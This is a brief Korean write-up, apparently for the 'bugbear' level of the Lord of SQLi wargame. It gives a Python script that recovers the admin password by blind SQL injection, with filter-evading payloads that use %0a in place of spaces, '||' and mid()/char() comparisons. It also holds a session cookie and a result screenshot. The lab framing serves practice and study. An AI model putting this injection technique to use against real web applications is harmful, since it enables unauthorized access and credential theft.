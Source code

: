 파이썬을 이용하여 8자리를 구하였다.


import requests

cookies={'PHPSESSID':'votgib2k2ndb0c407hmbucfm2o'}
url="https://los.rubiya.kr/chall/bugbear_19ebf8c8106a5323825b5dfa1b07ac1f.php?"

pw=""
for i in range(1,9):
    for j in range(128,33,-1):
        query="pw=&no=%22%22||id%0ain%0a%28%22admin%22%29%26%26mid%28pw%2C"+str(i)+"%2C1%29%0ain%0a%28char%28"+str(j)+"%29%29"
        geturl=url+query
        res=requests.get(geturl,cookies=cookies)
        if((res.text).find("Hello admin")>0):
            pw+=chr(j)
            print (pw)
            break

print ("finish pw :"+pw)



<img width="648" alt="스크린샷 2020-01-19 오후 7 22 00" src="https://user-images.githubusercontent.com/54495632/72679427-5b828b00-3af2-11ea-8a94-85fc7f4be7be.png">
